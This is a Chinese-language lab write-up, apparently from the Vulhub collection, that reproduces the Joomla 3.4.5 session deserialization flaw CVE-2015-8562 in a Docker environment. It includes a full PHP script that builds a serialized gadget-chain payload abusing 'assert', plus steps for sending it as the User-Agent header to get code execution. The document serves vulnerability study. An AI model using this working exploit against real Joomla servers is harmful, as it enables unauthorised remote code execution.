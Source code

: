 # Joomla 3.4.5 反序列化漏洞 CVE-2015-8562

## 漏洞描述

本漏洞根源是PHP5.6.13前的版本在读取存储好的session时，如果反序列化出错则会跳过当前一段数据而去反序列化下一段数据。而Joomla将session存储在Mysql数据库中，编码是utf8，当我们插入4字节的utf8数据时则会导致截断。截断后的数据在反序列化时就会失败，最后触发反序列化漏洞。

通过Joomla中的Gadget，可造成任意代码执行的结果。

详情可参考：

- https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html

## 影响版本

```
Joomla 1.5.x, 2.x, and 3.x before 3.4.6
PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45
```

## 环境搭建

Vulhub启动测试环境：

```
docker-compose up -d
```

启动后访问`http://your-ip:8080/`即可看到Joomla的安装界面，当前环境的数据库信息为：

- 数据库地址：mysql:3306
- 用户：root
- 密码：root
- 数据库名：joomla

填入上述信息，正常安装即可。

## 漏洞复现

然后我们不带User-Agent头，先访问一次目标主页，记下服务端返回的Cookie：

![img](images/2-168180288501438.png)

再用如下脚本生成POC：（[在线运行](http://sandbox.onlinephpfunctions.com/code/17e7080841ccce12f6c6e0bb1de01b9e390510bd)）

```php
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
$poc = serialize($a); 

$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

echo "123}__test|{$poc}\xF0\x9D\x8C\x86";
```

![img](images/1-168180288501439.png)

将生成好的POC作为User-Agent，带上第一步获取的Cookie发包，这一次发包，脏数据进入Mysql数据库。然后同样的包再发一次，我们的代码被执行：

![img](images/3-168180288501440.png)